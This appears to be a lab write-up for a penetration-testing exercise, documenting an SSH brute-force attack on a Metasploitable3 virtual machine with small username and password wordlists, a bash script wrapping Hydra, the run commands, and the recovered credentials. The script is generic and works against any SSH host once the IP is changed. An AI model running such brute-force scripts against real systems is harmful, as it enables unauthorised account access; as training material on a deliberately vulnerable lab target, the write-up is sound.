 # Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## Objective
Compromise the service using a custom script that i created.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

---

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # target IP
TARGET_PORT=22 # target IP

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

![the Custom Script](screanshots/customScript.png)

---

## Make the script executable
```text
chmod +x script.sh
```
![script executable](screanshots/scriptExecutable.png) 

---

## Result

### Execute the script
```text
./script.sh
```
![Execute script](screanshots/executeScript.png) 

### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

* Username: vagrant
* Password: vagrant





















